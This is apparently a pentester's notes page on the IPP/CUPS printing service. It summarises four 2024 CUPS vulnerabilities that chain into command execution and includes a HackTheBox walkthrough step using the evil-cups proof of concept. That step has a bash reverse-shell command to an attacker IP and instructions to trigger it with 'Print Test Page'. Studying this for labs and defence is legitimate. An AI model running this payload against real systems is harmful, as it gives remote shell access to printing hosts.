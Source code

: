 ```yaml
---
description: Internet Printing Protocol
icon: print
---
```


# IPP

<details>

<summary><mark style="color:orange;"><strong><code>CUPS (Common UNIX Printing System)</code></strong></mark></summary>

* <mark style="color:purple;">It uses</mark> <mark style="color:orange;">**`UDP`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`TCP`**</mark> <mark style="color:purple;">**on Port**</mark> <mark style="color:orange;">**`631`**</mark>

{% hint style="danger" %}
### <mark style="color:purple;">`Vulnerabilities`</mark>

#### [<mark style="color:red;">**`CVE-2024-47176`**</mark>](https://nvd.nist.gov/vuln/detail/CVE-2024-47176)

* <mark style="color:orange;">**`cups-browsed`**</mark><mark style="color:purple;">, the service that typically listens on all interfaces</mark> <mark style="color:orange;">**`UDP 631`**</mark><mark style="color:purple;">, is what allows adding a printer to a machine remotely. This vulnerability allows any attacker who can reach this machine to trigger a</mark> <mark style="color:orange;">**`“Get-Printer-Attributes” IPP`**</mark> <mark style="color:purple;">request being sent to an attacker-controlled URL.</mark>

#### [<mark style="color:red;">**`CVE-2024-47076`**</mark>](https://nvd.nist.gov/vuln/detail/CVE-2024-47076)&#x20;

* <mark style="color:orange;">**`libcupsfilters`**</mark> <mark style="color:purple;">is responsible for handling the</mark> <mark style="color:orange;">**`IPP`**</mark> <mark style="color:purple;">attributes returned from the request. These are written to a temporary</mark> <mark style="color:orange;">**`Postscript Printer Description (PPD)`**</mark> <mark style="color:purple;">file without sanitization, allowing malicious attributes to be written.</mark>

#### [<mark style="color:red;">**`CVE-2024-47175`**</mark>](https://nvd.nist.gov/vuln/detail/CVE-2024-47175)

* <mark style="color:orange;">**`libppd`**</mark> <mark style="color:purple;">is responsible for reading a temporary</mark> <mark style="color:orange;">**`PPD`**</mark> <mark style="color:purple;">file and turning that into a printer object on the system. It also doesn’t sanitize when reading, allowing for injection of attacker controlled data.</mark>

#### [<mark style="color:red;">**`CVE-2024-47177`**</mark>](https://nvd.nist.gov/vuln/detail/CVE-2024-47177)

* <mark style="color:purple;">This vulnerability in</mark> <mark style="color:orange;">**`cups-filters`**</mark> <mark style="color:purple;">allows for loading a printer using the</mark> <mark style="color:orange;">**`foomatic-rip`**</mark> <mark style="color:purple;">print filter, which is a universal converter for transforming PostScript or PDF data into the format that the printer can understand. It has long had issues with command injection, and has been limited to manual installs / configurations only.</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:orange;">`POC`</mark>

* <mark style="color:green;">**`Ippsec`**</mark> <mark style="color:purple;">has a</mark> [<mark style="color:orange;">**`POC`**</mark>](https://github.com/ippsec/evil-cups) <mark style="color:purple;">that is used on the</mark> <mark style="color:green;">**`evilcups`**</mark> <mark style="color:purple;">machine from</mark> <mark style="color:green;">**`HackThebox`**</mark><mark style="color:purple;">:</mark>

{% code title="Add the malicious printer" overflow="wrap" %}
```bash
python evil-cups.py 10.10.14.6 10.10.11.40 'nohup bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"&'
```
{% endcode %}

* <mark style="color:purple;">Now, on the server select the the malicious printer and  trigger the option</mark> <mark style="color:orange;">**`Print Test Page`**</mark>
* <mark style="color:purple;">The default path for printed jobs is</mark> <mark style="color:orange;">**`/var/spool/cups`**</mark>
{% endhint %}

</details>
